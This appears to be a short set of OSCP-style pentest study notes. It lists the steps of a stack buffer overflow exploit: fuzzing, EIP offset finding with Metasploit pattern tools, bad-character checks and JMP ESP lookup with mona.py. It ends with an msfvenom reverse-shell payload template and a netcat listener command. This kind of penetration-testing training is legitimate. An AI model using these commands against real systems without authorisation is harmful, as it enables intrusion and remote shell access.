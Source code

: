 # Buffer Oveflow

## Identify Overflow Length

> 1. Attach debugger
> 2. Run fuzzer script
> 3. Run confirm-overflow script

## Control EIP

> 1. Create pattern: `msf-pattern_create -l <length>`
> 2. Run locate-offset script
> 3. Locate offset: `msf-pattern_offset -l <length> <eip-value>`
> 4. Run verify-offset script

## Locate Space for Shellcode

> 1. Run increase-overflow script to attempt increasing overflow size
> 2. If successful, run bad-char script

## Find Return Address

> 1. Locate module w/ least memory protection: mona.py `!mona modules`
> 2. JMP ESP hex: `msf-nasm_shell > jmp esp` (FFE4)
> 3. Locate JMP ESP w/ no bad chars: mona.py `find -s "\xff\xe4" -m "<dll module>"`
> 4. Run verify-jmp-esp script

## Getting Shell

> 1. Generate payload: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f <format> -e x86/shikata_ga_nai -b "<bad-chars> (e.g. \x00\x0a\x0d\x25\x26\x2b\x3d)"`
> 2. Run listener: `sudo nc -nvlp <port>`
> 3. Run exploit script

## Cheatsheets

> - [Tib3rius/Pentest-Cheatsheets](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)
> - [V1n1v131r4/OSCP-Buffer-Overflow](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow)
> - [Liodeus](https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html)
